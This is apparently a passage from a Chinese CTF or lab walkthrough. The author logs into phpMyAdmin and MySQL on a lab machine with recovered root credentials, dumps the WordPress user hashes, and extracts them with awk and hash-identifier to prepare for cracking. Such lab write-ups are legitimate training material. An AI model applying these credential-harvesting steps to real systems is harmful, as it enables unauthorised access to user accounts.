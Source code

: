找到了账号密码，我记得之前有个意思登录界面，在根目录下，查看一下`phpmyadmin`能否打开：

![image-20240202131736273](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200973.png)

发现一个登录入口，尝试一下是否可以打开：

![image-20240202163200413](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200974.png)

顺利进来了！翻找一下，可以找到之前那些个用户：

![image-20240202163323374](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200975.png)

也可以sql查询的，这里为了练习也尝试打了一下：

```sql
mysql -uroot -pplbkac -h 192.168.244.178
show databases;
use wordpress
show tables;
desc wp_users;
select user_login,user_pass from wp_users;
# +------------+------------------------------------+
# | user_login | user_pass                          |
# +------------+------------------------------------+
# | John       | $P$B7889EMq/erHIuZapMB8GEizebcIy9. |
# | Elly       | $P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0 |
# | Peter      | $P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0 |
# | barry      | $P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0 |
# | heather    | $P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 |
# | garry      | $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1 |
# | harry      | $P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0 |
# | scott      | $P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1 |
# | kathy      | $P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0 |
# | tim        | $P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0 |
# | ZOE        | $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 |
# | Dave       | $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. |
# | Simon      | $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 |
# | Abby       | $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. |
# | Vicki      | $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 |
# | Pam        | $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 |
# +------------+------------------------------------+
```

将上述账号密码保存到一个文件内，利用正则筛选出我们想要的东西：

```shell
awk -F '|' '{print $3}' pass > password
```

检查加密方式：

```shell
hash-identifier
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200976.png" alt="image-20240202164442993" style="zoom: 67%;" />

